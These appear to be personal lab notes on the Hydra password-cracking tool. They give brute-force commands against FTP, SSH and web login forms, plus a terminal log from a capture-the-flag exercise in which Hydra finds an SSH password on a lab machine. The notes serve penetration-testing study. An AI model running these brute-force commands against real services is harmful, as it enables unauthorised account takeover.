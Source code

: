 
### Hydra

More Info: https://github.com/frizb/Hydra-Cheatsheet


What is Hydra?
Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

#### Hydra Commands

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

Sample: SSH

`hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`

![[Pasted image 20220815022115.png]]

Post Web Form
We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![[Pasted image 20220815022213.png]]

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/simple_CTF]
└─$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 10.10.134.118 ssh 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-18 08:00:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.134.118:2222/
[2222][ssh] host: 10.10.134.118   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-18 08:01:12
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/simple_CTF]
└─$      
```

